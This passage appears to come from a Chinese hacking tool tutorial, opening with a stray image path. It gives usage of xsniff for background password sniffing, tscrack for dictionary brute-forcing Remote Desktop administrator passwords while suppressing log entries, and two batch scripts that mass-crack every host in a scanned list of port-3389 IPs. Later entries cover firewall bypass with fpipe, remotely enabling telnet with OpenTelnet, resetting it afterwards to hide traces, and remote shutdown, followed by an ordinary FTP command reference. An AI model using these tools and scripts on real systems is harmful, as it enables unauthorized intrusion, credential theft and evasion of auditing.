 　　-port 端口 过滤端口
　　-log 文件名 将输出保存到文件
　　-asc 以ASCII形式输出
　　-hex 以16进制形式输出
　　用法示例
　　xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在pass.log文件中
　　xsniff.exe -tcp -udp -asc -addr 192.168.1.1 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出
　　终端服务密码破解: tscrack.exe
　　参数说明
　　-h 显示使用帮助
　　-v 显示版本信息
　　-s 在屏幕上打出解密能力
　　-b 密码错误时发出的声音
　　-t 同是发出多个连接（多线程）
　　-N Prevent System Log entries on targeted server
　　-U 卸载移除tscrack组件
　　-f 使用－f后面的密码
　　-F 间隔时间（频率）
　　-l 使用－l后面的用户名
　　-w 使用－w后面的密码字典
　　-p 使用－p后面的密码
　　-D 登录主页面
　　用法示例
　　tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码
　　tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户
　　@if not exist ipcscan.txt goto noscan
　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
　　nscan
　　@echo 3389.txt no find or scan faild
　　(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
　　3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat
　　@if not exist tscrack.exe goto noscan
　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt
　　:noscan
　　@echo tscrack.exe no find or scan faild
　　(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。
　　其它
　　Shutdown.exe
　　Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）
　　fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）
　　fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息
　　Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。
　　OpenTelnet.exe (远程开启telnet工具)
　　opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。
　　NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。
　　ResumeTelnet.exe (OpenTelnet附带的另一个工具)
　　resumetelnet.exe IP　帐号　密码 用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。
　　FTP命令详解
　　FTP命令是Internet用户使用最频繁的命令之一，熟悉并灵活应用FTP的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学习使用进行后台FTP下载，那么就必须学习FTP指令。
　　FTP的命令行格式为：
　　ftp -v -d -i -n -g [主机名] ，其中
　　-v 显示远程服务器的所有响应信息
　　-n 限制ftp的自动登录，即不使用；.n etrc文件；
　　-d 使用调试方式；
　　-g 取消全局文件名。
　　FTP使用的内部命令如下(中括号表示可选项):
　　1.![cmd[args]]：在本地机中执行交互shell，exit回到ftp环境，如：!ls*.zip
　　2.$ macro-ame[args]： 执行宏定义macro-name。
　　3.account[password]： 提供登录远程系统成功后访问系统资源所需的补充口令。
　　4.append local-file[remote-file]：将本地文件追加到远程系统主机，若未指定远程系统文件名，则使用本地文件名。